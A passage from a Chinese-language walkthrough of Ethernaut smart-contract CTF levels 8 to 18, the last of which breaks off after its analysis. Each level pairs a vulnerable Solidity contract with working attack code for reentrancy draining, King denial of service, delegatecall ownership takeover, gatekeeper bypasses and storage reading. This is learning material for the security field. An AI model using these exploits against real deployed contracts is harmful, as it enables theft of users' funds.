该题目的合约：

```solidity
bool public locked;
bytes32 private password;
```

显然是在` slot1 `的位置；控制台中直接输入：` web3.eth.getStorageAt(contract.address, 1) `；


同样的答案；


### 攻击

为了简单，直接控制台输入指令执行合约了：` contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29") `；


## Level_9.King

要求：

> 成为king，且在提交题目时，owner会再次尝试成为king，避免owner成功；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    // 收款时使用
    receive() external payable {
        // 需要携带的金额大于等于现有出价
        // 或者发送者是owner
        require(msg.value >= prize || msg.sender == owner);
        // 给之前的king转账
        payable(king).transfer(msg.value);
        // 更新king和最高出价
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

### 分析

合约类似一个拍卖系统，最高价者是这个合约的king，并且之前的king能获得新king的出价报酬；

首先就是想看看能不能获得` owner `，发现合约中并没有能够修改` owner `的地方；

这边也没什么可以溢出的地方；且提交题目时，` owner `会利用` msg.sender == owner `来重新成为` king `；

所以发送的金额再高也没啥用，` msg.value `、` owner `都失效了，看看` msg.sender `；

要是` king `是一个合约地址，且它没有` receive() `和` fallback() `，那调用` transfer() `不就会失败？这样` king `永远不会被修改了；

> 之前的笔记：
>
> 用法：`接收方地址.transfer(发送的ETH数额)`；
>
> - `transfer`的gas限制是2300，足够用于转账，前提是接收方的`fallback`和`receive`不能太复杂；
> - `transfer`如果转账失败，会自动`revert`交易（回滚交易）；

所以，我们只需部署一个无接受转账函数的合约，利用它往该合约转账相应金额成为` king `即可；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    function getKing(address payable addr) public payable {
        // 使用call，以防对面的接收函数实现了复杂逻辑
        (bool success, )= addr.call{value:msg.value}("");
        require(success, "Fail");
    }
}
```


## Level_10.Re-entrancy

要求：

> 偷完该合约所有资金；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;
    // 捐赠
    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }
    // 查询余额
    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    // 取钱
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

### 分析

从题目名字就能看出，是个重入攻击；

一般有重入攻击的合约都是先转账再扣金额的，而且使用的是` addr.call{value}("") `这个转账函数；

```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value: _amount}("");
        balances[msg.sender] -= _amount;
    }
}
```

重入攻击就是当用户取款时，在` (bool result,) = msg.sender.call{value: _amount}(""); `这一句后发动重复的攻击，此时合约中存储我们账户余额的` mapping `还没有改动；有点类似递归，一直在调用，但还没返回；

如何来实现攻击呢？

写一个合约，使其有个` withdraw `函数，再来个` receive `函数：

```solidity
// 取款
function attack_withdraw() external {
    // 调用原withdraw
    victim.withdraw(money);
}
// 接收ETH时
receive() external payable {
    victim.withdraw(money);
}
```

1. 我们调用` attack_withdraw() `函数；
2. 调用` victim.withdraw() `取款；
3. 此时ETH到我们的合约上，正好又触发` receive() `函数；
4. ` receive() `函数又调用` victim.withdraw() `函数；
5. 触发` receive() `函数；
6. ...

直到目标合约没钱了；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;
import "./Ethernaut.sol";

contract Exp {
    Reentrance public re;
    // 给合约赋值，并且donate0.001
    constructor(address payable addr) public payable {
        re = Reentrance(addr);
        re.donate{value:0.001 ether}(address(this));
    }
    // 取款
    function withdraw() external {
        // 调用原withdraw
        re.withdraw(0.001 ether);
        // 此时钱在该合约里，所以需要给我们自己转账
        (bool res, ) = msg.sender.call{value:address(this).balance}("");
        require(res);
    }
    
    receive() external payable {
        re.withdraw(0.001 ether);
    }
}
```

部署合约，并捐赠：


发动重入攻击：



区块浏览器上查阅的详细信息：




## Level_11.Elevator

要求：

> 到达顶层；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

### 分析

给出的合约中有一个接口` Building `和主合约` Elevator `；

函数` goTo `中后半部分的判断应该是：

1. ` if (!building.isLastFloor(_floor)) `处` isLastFloor `应该返回` False `，这样才能往下执行；
2. ` top = building.isLastFloor(floor); `处` isLastFloor `应该返回` True `，这样就能达到题目要求；

但现在的问题是，我们并不知道` isLastFloor `中的逻辑是什么；

注意这一句` Building building = Building(msg.sender); `，若我们(合约)是` msg.sender `，那我们完全可以实现按照我们逻辑的` isLastFloor `函数；

所以，我们只需实现一个我们自己的` isLastFloor `，一开始返回` False `，随后返回` True `即可；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is Building {
    Elevator public elev;
    bool flag = false;
    // 初始化合约地址
    constructor(address addr){
        elev = Elevator(addr);
    }
    // 实现接口
    function isLastFloor(uint256) external override returns (bool){
        if (flag == false) {
            flag = true;
            return false;
        } else {
            return true;
        }
    }
    // 攻击
    function Attack() public {
        elev.goTo(2);
    }
}
```


## Level_12.Privacy

要求：

> 解锁合约；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

### 分析

很像` Level_8.Vault `，都是获取泄漏的状态变量值来通关；直接计算每个数据该在哪个` slot `；

| slot0(256位) |                            locked                            |
| :----------: | :----------------------------------------------------------: |
| slot1(256位) |                              ID                              |
| slot2(256位) | (按在内存中的顺序)awkwardness(128位)\|denomination(64位)\|flattening(64位) |
| slot3(256位) |                          bytes32[0]                          |
| slot4(256位) |                          bytes32[1]                          |
| slot5(256位) |                          bytes32[2]                          |

` unlock `函数中显示我们要找` data[2] `，并且将其转化为` bytes16 `；

写个demo看看转成` bytes16 `是取前半还是后半：



所以我们只需查看` slot5 `，然后截取前128位(32个16进制)即可；


### 攻击

查看` slot5 `中的值：


截取数据：

```solidity
// 0x7ae5e3ef178f7269c652145bdc7cb7d126d9805f491017c8cab8850b590823eb
// |
// |
// 0x7ae5e3ef178f7269c652145bdc7cb7d1
```

解锁：


## Level_13.Gatekeeper One

要求：

> 通过守门人；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    // 三道关卡
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

### 分析

此合约有3道关卡需要通过；

#### 第一道关卡

需要消息的发送者不是交易的发送者；

这个在之前做过，通过增加一个合约代理利用` call `即可绕过（` delegatecall `不能用，两个值会相同）；


#### 第二道关卡

剩余gas得是8191的倍数；

Solidity中可以使用` call{gas:xxx}("") `自定义携带的gas费用，我们可以利用一个自动化脚本来实现攻击；


#### 第三道关卡

输入数据需要符合各种转换；


可以看到，转换基本就是取` bytes `的后多少位；

从最后开始往前推：

输入一共是16个hex；

1. ` uint32(uint64(_gateKey)) == uint16(uint160(tx.origin) `

tx.origin的末尾4个hex = 输入的末尾8个hex

2. ` uint32(uint64(_gateKey)) != uint64(_gateKey) `

完整的输入 != 输入的末尾8个hex

3. ` uint32(uint64(_gateKey)) == uint16(uint64(_gateKey) `

输入的末尾4个hex = 输入的末尾8个hex

总结一下就是：输入的最后4个hex要为我们地址的最后4个hex，前8个hex要不全为0，中间的4个hex要为0；

用位运算来表达就是：` tx.origin & 0xFFFFFFFF0000FFFF `；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    function Attack(address addr, uint256 gas) public {
        GatekeeperOne go = GatekeeperOne(addr);
        bytes8 key = bytes8(uint64(uint160(tx.origin) & 0xFFFFFFFF0000FFFF));
        require(go.enter{gas: 8191 * 10 + gas}(key), "failed");
    }

    function Start(address addr) public {
        for(uint256 i = 1; i < 8191; i++){
            try this.Attack(addr, i) {
                break;
            } catch {}
        }
    }
}
```

等个十几秒就成功了：

~~(我这边得到正确的gas后，单独运行` Attack `却失败，调试了好久都不清楚原因...)~~




## Level_14.Gatekeeper Two

要求：

> 通过守门人；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

### 分析

#### 第一道关卡

和上一个一样的，通过增加一个合约作为代理绕过；


#### 第二道关卡

` extcodesize() `：获得账户中代码的size；

` caller() `：调用者的地址

所以合约中的` x `为我们攻击合约的代码长度；

但要使其为0，得是个账户地址，而不能是一个合约地址；

但是，从[stackexchange](https://ethereum.stackexchange.com/questions/15641/how-does-a-contract-find-out-if-another-address-is-a-contract/15642#15642)这个帖子中可以知道，在构造函数中运行，返回的是0；


#### 第三道关卡

```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max)

type(uint64).max) = 0xFFFFFFFFFFFFFFFF;

// 异或
uint64(_gateKey) = 0xFFFFFFFFFFFFFFFF ^ uint64(bytes8(keccak256(abi.encodePacked(msg.sender))));
```

此时的` msg.sender `为攻击合约地址；

计算方法：` bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ 0xFFFFFFFFFFFFFFFF) `；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    constructor(address addr){
        GatekeeperTwo gt = GatekeeperTwo(addr);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ 0xFFFFFFFFFFFFFFFF);
        require(gt.enter(key), "failed");
    }
}
```


## Level_15.Naught Coin

要求：

> 使账户的tokens余额为0；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

### 分析

该合约提供了一个` ERC20 `代币，但锁定了十年后才能转账；

从[ERC20.sol](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)中可以注意到转账相关的函数如下：

```solidity
function transfer(address to, uint256 value) public virtual returns (bool) {
    address owner = _msgSender();
    _transfer(owner, to, value);
    return true;
}

function transferFrom(address from, address to, uint256 value) public virtual returns (bool) {
    address spender = _msgSender();
    _spendAllowance(from, spender, value);
    _transfer(from, to, value);
    return true;
}

function approve(address spender, uint256 value) public virtual returns (bool) {
    address owner = _msgSender();
    _approve(owner, spender, value);
    return true;
}
```

其中` transfer(address to, uint256 value) `被重写了，但是我们还能用` transferFrom(address from, address to, uint256 value) `这个函数；

使用` transferFrom `这个函数时需要注意，查询的是映射` allowances `，需要先` approve `一下，之后扣款是扣当前账户的余额；

所以只需先授权给自己，然后转给其他人即可；


### 攻击

为了简单的调用函数，直接实现一个接口，通过Remix的` At Address `来调用：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface INaughtCoin {
    function transferFrom(address from, address to, uint256 value) external virtual returns (bool);
    function approve(address spender, uint256 value) external virtual returns (bool);
}
```


## Level_16.Preservation

要求：

> 成为合约的owner；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

### 分析

该合约使用` LibraryContract `存储了两个不同的时间，都是使用` delegatecall `执行的，仅仅借用了` LibraryContract `中的` setTime `函数；

```solidity
// delegatecall
A ----------call----------> B ----------delegatecall----------> C
                     msg.sender = A                  ****msg.sender = A****
                     msg.data = A给的                     msg.data = A给的
                     变量的变化 = 仅C中的变量变化            变量的变化 = 仅B中的变量变化
```

在Remix中部署demo调用一遍发现和合约想要实现的效果不太一样：


执行` setFirstTime `时，` storedTime `并没有变化，变化的只有` timeZone1Library `；


同样的，执行` setSecondTime `后，变化的只有` timeZone1Library `；


发现` LibraryContract `中只有一个状态变量，会不会` delegatecall `改变状态变量时，只会根据"工具合约"（也就是上面的C合约）的` slot `布局来更改？

写个demo看一下：


所以，我们只需写一个合约，还原目标合约的布局，然后将` owner `更改为自己的地址即可；


### 攻击

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```

首先将` timeZone1Library `改为我们的exp合约地址，然后再调用其即可；




## Level_17.Recovery

要求：

> 从失去地址的合约中获得0.001ETH；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

### 分析

该合约是个工厂合约，只有` Recovery `的地址，但生成的Token合约地址却不知道，需要找回丢失的ETH；

找回丢失的ETH简单，只需要知道生成的Token合约地址，然后调用` destroy `即可，问题是不清楚合约地址；

首先有个简单的方法就是查询交易，其中有生成的Token合约地址：


还有一种方法是计算，之前学Solidity时，创建合约时，地址是可以预测的；

这边是` Create `（没有` salt `），所以其[生成地址的方法](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed)是` Keccak256(RLP.encode(Creator_address, nonce)) `；

**RLP编码**

> [RLP Encode-Ethereum Docs](https://ethereum.org/en/developers/docs/data-structures-and-encoding/rlp/)：
>
> * 单个String
>     * 0 ~ 55 bytes long
>         * bytes1(0x80 + string_length) + string
>         * WZM
>         * [0x80 + 3] + [string]
>     * more than 55 bytes long
>         * bytes1(0xB7 + len(string_length)) + string_length + string
>         * 一个1024字节的string
>         * [0xB7 + 2(后面的0x0400长度为2)] + [0x0400] + [string]
> * 单个字节
>     * 直接编码
>     * the byte '\x0f' = [ 0x0f ]
> * 单个正整数
>     * 编码成字节码，然后根据上面两个转换
>     * 12 --> '\x0c' --> [ 0x0C ]
>     * 1024 --> '\x04\x00' --> [0x80 + 2, 0x04, 0x00]
>
> 
>
> * total payload
>     * 0 ~ 55 bytes long
>         * bytes1(0xC0 + payload_length) + payload
>         * [ "cat", "dog" ]
>         * [ 0xc8(后面一共8个), 0x83(cat长度为3), 'c', 'a', 't', 0x83(dog长度为3), 'd', 'o', 'g' ]
>     * more than 55 bytes long
>         * bytes1(0xF7 + len(payload_length)) + payload_length + payload

这边的` nonce `是创建者的交易数目，这边创建时应该为0x1（之前有一个创建自身的交易为0x0）；

这边的RLP构造为：

> 0xC0 + hex(1 + 20 + 1) --> 1 byte --> payload总长度
>
> 0x80 + hex(20) --> 1 byte --> 地址string的长度
>
> address() --> 20 byte --> 地址
>
> 0x01 --> 1 byte --> 当前nonce

所以生成的地址用solidity应该这么写：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    function getHash() public returns (address){
        return address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(0x9b42CFb0A6d6E200991967424131d9C0b262Fe3D), bytes1(0x01))))));
    }
}
```



和交易记录中的哈希一样；


### 攻击

得到地址后直接调用` destroy `取回ETH即可；



有名字，地址没错；

取回：


## Level_18.MagicNumber

要求：

> 使用10字节以内的大小写一个solver contract；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MagicNum {
    address public solver;

    constructor() {}

    function setSolver(address _solver) public {
        solver = _solver;
    }

    /*
    ____________/\\\_______/\\\\\\\\\_____        
     __________/\\\\\_____/\\\///////\\\___       
      ________/\\\/\\\____\///______\//\\\__      
       ______/\\\/\/\\\______________/\\\/___     
        ____/\\\/__\/\\\___________/\\\//_____    
         __/\\\\\\\\\\\\\\\\_____/\\\//________   
          _\///////////\\\//____/\\\/___________  
           ___________\/\\\_____/\\\\\\\\\\\\\\\_ 
            ___________\///_____\///////////////__
    */
}
```

### 分析

需要用EVM的字节码写出一个合约，其中有一个` whatIsTheMeaningOfLife() `函数需要返回正确的32字节数字；

